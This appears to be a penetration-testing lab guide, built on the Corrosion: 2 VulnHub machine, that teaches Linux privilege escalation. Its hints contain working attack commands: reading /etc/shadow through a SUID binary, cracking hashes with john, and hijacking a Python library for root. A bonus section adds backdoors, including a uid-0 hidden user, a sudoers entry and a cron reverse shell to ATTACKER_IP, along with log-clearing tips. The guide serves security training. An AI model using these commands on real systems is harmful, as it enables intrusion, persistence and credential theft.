**Linux privilege escalation** typically involves exploiting:

1. **Misconfigurations**:
   - Weak file permissions
   - Sudo misconfigurations and overly permissive sudoers files
       - `sudo -l` can show you what commands you are allowed to run with sudo
   - SUID/SGID binaries
       - SUID (Set User ID) and SGID (Set Group ID) are special permission bits that allow a program to run with the **privileges of its owner** (SUID) or group (SGID), rather than the privileges of the user executing it.
       - Example: The `passwd` command needs to modify `/etc/shadow` (owned by root), so it has SUID set to run as root even when executed by regular users.
   - Writable PATH locations

2. **Vulnerable Software**:
   - Kernel exploits
   - Vulnerable services
   - Custom applications
   - Outdated packages

3. **Credentials**:
   - Password reuse
   - Hardcoded credentials
   - Accessible password files
   - SSH keys

4. **Scheduled Tasks**:
   - Cron jobs
   - Systemd timers
   - Custom scripts

**Enumeration tools** can help identify these vectors:
- **LinEnum**: Comprehensive Linux enumeration script
- **linPEAS**: Advanced enumeration with color highlighting

You can also use information gathering modules in Metasploit. The modules are local to your attack host but you need to run the remotely - how do you do that? When you have your meterpreter session, active, you can instruct a post module to use it like in this example:

```bash
# First, background your current meterpreter session
meterpreter > background
[*] Backgrounding session 1...
# Or use Ctrl+Z to background it

# List your sessions to see the session number
msf6 > sessions -l

Active sessions
===============
  Id  Name  Type                    Information         Connection
  --  ----  ----                    -----------         ----------
  1         meterpreter java/linux  tomcat @ corrosion  172.31.17.254:4444 -> 172.31.22.126:59784 (172.31.22.126)

# Select a module
msf6 > use multi/recon/local_exploit_suggester

# Configure the meterpreter session to use
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

# Run the module
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 172.31.22.126 - Collecting local exploits for java/linux...
```

(you can browse through Metasploit modules [here](https://docs.metasploit.com/docs/modules.html), selecting those in `post/*/gather` category)

### Exercise 4.1: Find Privilege Escalation Vectors

> **Difficulty**: 🔴🔴🔴🔴⚪
> **Importance**: 🔵🔵🔵🔵🔵

**Identify and execute a privilege escalation to another user.**

Tip: While you can try using Metasploit or other tools to find exploits, **you don't need that for this exercise**. Basic bash commands should suffice. And perhaps your friend john too...

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

Find a suitable SUID binary that will allow you to execute it with the permissions of the file owner.
</details>


<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

To find SUID/SGID binaries, you can use:

```bash
# -perm specifies we're searching by permissions, -u=s means the "user" (owner) has the "s" (setuid) permission bit set
find / -perm -u=s -type f 2>/dev/null
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 3</summary>

Besides standard system files with the SUID bit set, you can see an unusual one: `/home/jaye/Files/look`

You can examine it with `file` to verify it has the SUID bit indeed (`s` in `ls -l` output) and is a binary executable:
```bash
ls -l /home/jaye/Files
# Determine the type of a file by its contents
file /home/jaye/Files/look
```

You can also try running it to see what it does:
```bash
/home/jaye/Files/look
```

</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 4</summary>

The `look` program appears to search for text in files. Try using it to read sensitive files you cannot otherwise read:

```bash
/home/jaye/Files/look '' /etc/shadow
```

An empty search string ('') might show the entire file!
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 5</summary>

If you can read `/etc/shadow`, you now have password hashes of other users!

```bash
/home/jaye/Files/look '' /etc/shadow
```

You can try cracking the hashes, but which user should you try first?
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 6</summary>

Trying to crack the password for the root user would be a good guess. However, it won't succeed here.

Looking at contents of the `/home` directory reveals another likely developer accounts on this host: `randy`.

You can extract their hash with

```bash
/home/jaye/Files/look '' /etc/shadow | grep randy
```

The format is

```
username:$hash_type$salt$hash:...
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 7</summary>

Now that you have the hash, you can try cracking it with `john` (John the Ripper).

You can copy the hash to a file locally so that you can run `john` on it.

```bash
echo 'randy:$6$bQ8rY/73RouAAlFx$...' > randy_hash.txt
```

If copy-pasting was inconvenient for any reason, you can also use meterpreter to download a file:

```bash
# From meterpreter shell
/home/jaye/Files/look '' /etc/shadow | grep randy > /tmp/randy_hash.txt

# Ctrl+C to exit the shell
meterpreter > download /tmp/randy_hash.txt
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 8</summary>

Use `john` (John the Ripper) to crack password hashes:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt randy_hash.txt

# Show cracked passwords
john --show randy_hash.txt
```

If the cracking is taking too long, you can try running it locally on your laptop, or ask an instructor for help (the provided VMs are not very powerful).

**This should now allow you to login as randy:**

```bash
ssh randy@<target-ip>
# Enter the password when prompted
```
</details>

### Exercise 4.2: Escalate to Root

> **Difficulty**: 🔴🔴🔴🔴🔴
> **Importance**: 🔵🔵🔵🔵🔵

With the escalated privileges from previous exercise, **now is the time to escalate all the way to root and take over the system.**

Open the last hint from the previous exercise to see how to ssh to the target host and carry on from there. **Start by looking for privilege escalation vectors** just like you did in the previous exercise (**refer to section "Common Privilege Escalation Vectors"**).

**Your goal is to get a root shell.**

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

User `randy` has permissions to run a Python script as root. Find out how to do that.
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

When you are logged in as randy, check what sudo privileges you have:

```bash
sudo -l
```

This should show you how to run the Python script as root.

If you have problems entering the password for sudo (e.g., when doing this from the meterpreter shell), you can make sudo accept the password from standard input:

```bash
echo "PASSWORD" | sudo -S -l
```

</details>

<!-- FIXME: IMPORTANT: change the sudoers file in the AMI to refer to python3.10 rather than python3.8. Also fix the permissions of /usr/lib/python3.10/base64.py to be writable by all-->

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 3</summary>

Randy can run a Python script as root.

```bash
sudo /usr/bin/python3 /home/randy/randombase64.py
```

Think about what is happening here. How can you open a shell using this?
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 4</summary>

The most straightforward way to get a root shell is to modify the Python script to execute a shell command. However, the file seems to be only writable by root.

```bash
$ ls -l randombase64.py
-rwxr-xr-x 1 root root 210 Sep 20  2021 randombase64.py
```

Another thing you could try is to delete the file and create a new one with the same name to get rid of the permissios. That won't work either - randy's home directory is not writable either!

```bash
$ ls -la
dr-xr-xr-x 15 randy randy 4096 Sep 20  2021 .
```

Read the script and think about how you could inject your own code to be executed by it.
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 5</summary>

The script imports `base64`. Check where this module is located and its permissions:

```bash
$ BASE64_FILE=$(python3 -c "import base64; print(base64.__file__)")
$ ls -la $BASE64_FILE
-rwxrwxrwx 1 root root 20846 May 27 11:12 /usr/lib/python3.10/base64.py
```

It seems like the Python installation is misconfigured and the file is world-writable! You can modify it to execute arbitrary code! How can you open a shell from there?
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 6</summary>

If `/usr/lib/python3.10/base64.py` is world-writable, you can add malicious code at the top (with `vi` or `nano`)

```python
# Add at the very beginning:
import os
os.system("/bin/bash")
```

Saving the file and running the sudo command should give you a root shell!

```bash
$ sudo /usr/bin/python3 /home/randy/randombase64.py

root@corrosion:/usr/bin# whoami
root
```
</details>

### Exercise 4.3: Capture the Flag

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵⚪⚪⚪

**Find and read the root flag to complete the challenge!**

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

As root, navigate to the root user's home directory:

```bash
cd /root
ls -la
```

Look for a flag file, commonly named `root.txt`, `flag.txt`, or similar.
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

Read the flag:

```bash
cat /root/root.txt
```

Congratulations! You've successfully completed the penetration test and captured the flag!
</details>


### Additional Resources
You can read more about privilege escalation in [HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html) or in the [Linux Privilege Escalation Cheatsheet](https://github.com/Ignitetechnologies/Linux-Privilege-Escalation).

You can read more about the library hijacking technique in [this blog post](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8).

## Bonus:&nbsp;&nbsp;Phase 5: Post-Exploitation and Persistence

While capturing the flag marks the end of a CTF challenge, real-world penetration tests continue with post-exploitation activities to demonstrate the full impact of the compromise.

### Maintaining Persistent Access

**Persistence mechanisms** ensure continued access even after system reboots or detection attempts:

1. **SSH Key Backdoors**:
   - Add authorized keys for passwordless access
   - Hide keys in unusual locations
   - Use SSH config tricks

2. **User Account Backdoors**:
   - Create hidden users
   - Modify existing accounts
   - Add sudo privileges

3. **Scheduled Task Backdoors**:
   - Cron jobs
   - Systemd services
   - At jobs

4. **Binary Backdoors**:
   - Replace system binaries
   - Add backdoors to services
   - Install rootkits

### Covering Your Tracks

**Anti-forensics techniques** help avoid detection:

1. **Log Manipulation**:
   - Clear command history: `history -c`
   - Edit log files: `/var/log/auth.log`, `/var/log/syslog`
   - Disable logging temporarily

2. **Timestamp Manipulation**:
   - Use `touch` to maintain original timestamps
   - Copy timestamp from other files

3. **Process Hiding**:
   - Rename processes
   - Use rootkits
   - Hide network connections

4. **File Hiding**:
   - Use dot files (`.filename`)
   - Hide in system directories
   - Use alternate data streams

### Data Exfiltration

**Exfiltration techniques** for stealing sensitive data:

1. **Direct Transfer**:
   - SCP/SFTP
   - HTTP/HTTPS upload
   - FTP

2. **Covert Channels**:
   - DNS tunneling
   - ICMP tunneling
   - Steganography

3. **Staged Exfiltration**:
   - Compress and encrypt data
   - Split into smaller chunks
   - Use multiple channels

### Exercise 5.1: Create Persistence (Optional)

> **Difficulty**: 🔴🔴🔴⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪

**Implement at least one persistence mechanism to maintain access.**

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Method 1: SSH Key Persistence</summary>

Generate an SSH key pair on your attack machine:
```bash
ssh-keygen -t rsa -b 4096 -f backdoor_key
```

On the target as root:
```bash
mkdir -p /root/.ssh
echo "YOUR_PUBLIC_KEY_HERE" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

Test access:
```bash
ssh -i backdoor_key root@<target-ip>
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Method 2: Hidden User Account</summary>

Create a backdoor user:
```bash
# Create user with root privileges
useradd -m -s /bin/bash -G sudo -u 0 -o systemd
echo "systemd:backdoor123" | chpasswd

# Or create a normal user and add to sudoers
useradd -m -s /bin/bash backdoor
echo "backdoor:complex_password" | chpasswd
echo "backdoor ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Method 3: Cron Backdoor</summary>

Add a reverse shell to crontab:
```bash
# Edit root's crontab
crontab -e

# Add reverse shell (runs every 5 minutes)
*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
```

Set up a listener on your attack machine:
```bash
nc -nlvp 4444
```
</details>


## Summary and Lessons Learned

Congratulations on completing the penetration testing lab! Let's review what we've learned and discuss the implications for both attackers and defenders.

### Attack Chain Analysis

You successfully executed a complete attack chain:

1. **Reconnaissance** → Network discovery and service identification
2. **Enumeration** → Directory brute-forcing and information gathering
3. **Initial Access** → Exploiting Tomcat with valid credentials
4. **Lateral Movement** → Password reuse to access user accounts
5. **Privilege Escalation** → Multiple methods leading to root access
6. **Persistence** → Maintaining access for future operations

### Key Security Failures

This exercise highlighted several critical security failures:

1. **Exposed Sensitive Files**
   - **Problem**: Backup files accessible via web server
   - **Impact**: Leaked credentials and configuration
   - **Fix**: Implement proper access controls, never store backups in web directories

2. **Weak Password Protection**
   - **Problem**: Zip file with weak password from common wordlist
   - **Impact**: Easy to crack and access sensitive data
   - **Fix**: Use strong, unique passwords or better encryption methods

3. **Password Reuse**
   - **Problem**: Same password used for multiple accounts
   - **Impact**: Single compromise leads to multiple account access
   - **Fix**: Enforce unique passwords, implement password policies

4. **Custom Binary Vulnerability**
   - **Problem**: Improper input validation in custom program
   - **Impact**: Unauthorized file access, including /etc/shadow
   - **Fix**: Proper input validation, principle of least privilege

5. **Excessive Sudo Privileges**
   - **Problem**: User can run Python scripts as root
   - **Impact**: Easy privilege escalation path
   - **Fix**: Minimize sudo access, use specific commands only

6. **World-Writable System Files**
   - **Problem**: Python library files writable by any user
   - **Impact**: Code injection with root privileges
   - **Fix**: Proper file permissions, regular audits

<br>

---

**Credits:**
This lab is based on the [Corrosion: 2 VM](https://www.vulnhub.com/entry/corrosion-2,745/) from VulnHub, and its walkthrough from [hackingarticles.in](https://www.hackingarticles.in/corrosion-2-vulnhub-walkthrough/).

<!-- FIXME: provide links for another labs they can do without hand holding in case participants finish early -->

